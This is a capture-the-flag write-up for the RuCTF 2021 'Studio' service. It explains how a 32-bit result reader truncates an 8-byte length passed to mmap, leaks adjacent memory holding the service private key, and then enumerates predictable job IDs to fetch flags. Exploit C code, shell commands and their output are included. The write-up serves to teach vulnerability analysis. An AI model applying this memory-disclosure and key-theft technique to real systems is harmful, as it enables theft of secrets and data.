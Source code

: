 # Studio

Service job handling algorithm:
1. Receive a binary file with the payload
2. Schedule a job with some monotonically increasing ID: time.Now().UnixNano()
3. Generate the memID: hash the job ID with the HMAC SHA256 function using the service secret key.
4. Allocate a shared memory region, identified by the generated memID
5. Spin up the container and execute the payload to write into the allocated shared memory region
6. After container exit, read the job result from the shared memory.
7. Deallocate the shared memory region

## Vulnerability

Service has a vulnerability in the 6th step of the main algorithm. Job result reader is the pre-generated 32-bit binary ([source code](https://github.com/HackerDom/ructf-2021/blob/main/services/studio/payload/main.c)). It executes the following algorithm:
1. Read the secret key to convert the integer jobID into the memID. `create_key` function performs `open()` followed by the `mmap()` to read the secret key into the process memory.
2. Read the shared memory region from the /dev/shm/memID and write it to the stdout

The reader uses the `shm_open` followed by `mmap` to read the job result. Job result is stored in the following format: [result_len (8bytes)][result_content (result_len bytes)].

Since the mmap has the size_t as the length in its signature and the binary is 32-bit, it will read only the first 4 bytes of the `result_len`. 
```sh
void *mmap(void *addr, size_t length, int prot, int flags,
                  int fd, off_t offset);
```
During the consecutive reading of the mapped memory region, the reader will try to read all the `result_len` bytes. This will result in the reading of the adjacent memory regions. The only thing left is to pick a good result_len so mmap will allocate us close to the mmap'ed `secret_key` a good spot in the process virtual address space. In this example, I use the 4295229444 = 2^32 (needed to read the process memory after the mmap'ed region) + 2^18 (needed to mmap near to the secret key) + 2^2 ("abc2" length).

```C
sploits/studio/payload/main.c:

    p = addr;
    len = strlen(to_write);
    size_t actual_len = 4295229444; // 2^32 (needed to read the process memory after the mmap'ed region) + 2^18 (needed to mmap near to the secret key) + 2^2 ("abc2" length)
    //write the length of the message to the header
    memcpy(p, &actual_len, sizeof(size_t));
    p += sizeof(size_t);
    //write the data to the memory
    memcpy(p, to_write, len);
```

Here is how to manually trigger this vulnerability: 

```sh
# allocate the shared memory region
$ services/studio/allocmemory/allocmemory 1337 container-svc/secret.key
9C179F442AE6D1ED56581D1600148F1BFE3ED19C0E1BFD44DF404073D434DBEA

# execute the exploit payload
$ sploits/studio/payload/vuln 9C179F442AE6D1ED56581D1600148F1BFE3ED19C0E1BFD44DF404073D434DBEA ../../../services/studio/container-svc/secret.key

# demonstate that the exploit wrote the result length equal to 2^32 + 2^18 + 2^2 
$ hexdump /dev/shm/9C179F442AE6D1ED56581D1600148F1BFE3ED19C0E1BFD44DF404073D434DBEA
0000000 0004 0004 0001 0000 6261 3263 0000 0000
0000010 0000 0000 0000 0000 0000 0000 0000 0000
*
004e200

# launch the result reader
$ services/studio/getmemory/getmemory 1337 ../../../services/studio/container-svc/secret.key > exploit_out
Segmentation fault (core dumped)

# we have a full service private key now
$ grep -abo "BEGIN SERVICE PRIVATE KEY" exploit_out
266235:BEGIN SERVICE PRIVATE KEY

$ grep -abo "END SERVICE PRIVATE KEY" exploit_out
586268:END SERVICE PRIVATE KEY
```

That's it, the only thing left to do is to use the monotonicaly increasing jobID to generate the possible hashes:

```sh 
$ services/studio/generatekey/generatekey 1 expl_secret.key
8A858C4D98A0B04E1C6E4D2CF5991CA60D37F9DA1632CA9843537721B153B7E9
$ services/studio/generatekey/generatekey 2 expl_secret.key
32395190FE61DE2E0C73F0E9362D614F3FB2C7FD8D58E318D7E5DC40C3FAEFBC

And so on...
```

Then, use the generated memID's to seek for flags in the job results.
```sh 
curl --location --request GET 'http://localhost:8000/api/v1/jobs/270F6BC566D205B0D56E1B2F0135F5F1F205B35F8A2DD8726F59915C6CA592FF'
{'code': 200, 'msg': 'ok', 'data': {'run_id': '1633271220036678587', 'id': '270F6BC566D205B0D56E1B2F0135F5F1F205B35F8A2DD8726F59915C6CA592FF', 'status': 'success', 'result': 'OXR0D9NFITKRIK5QBGMPHAHYCY52ASD=', 'time_info': {'AllocMemStart': '2021-10-03T17:27:00.058709304+03:00', 'StartContainer': '2021-10-03T17:27:00.08080791+03:00', 'StopContainer': '2021-10-03T17:27:00.532870379+03:00', 'ReadMem': '2021-10-03T17:27:00.532870843+03:00', 'DeallocMem': '2021-10-03T17:27:00.538250621+03:00'}}}
```



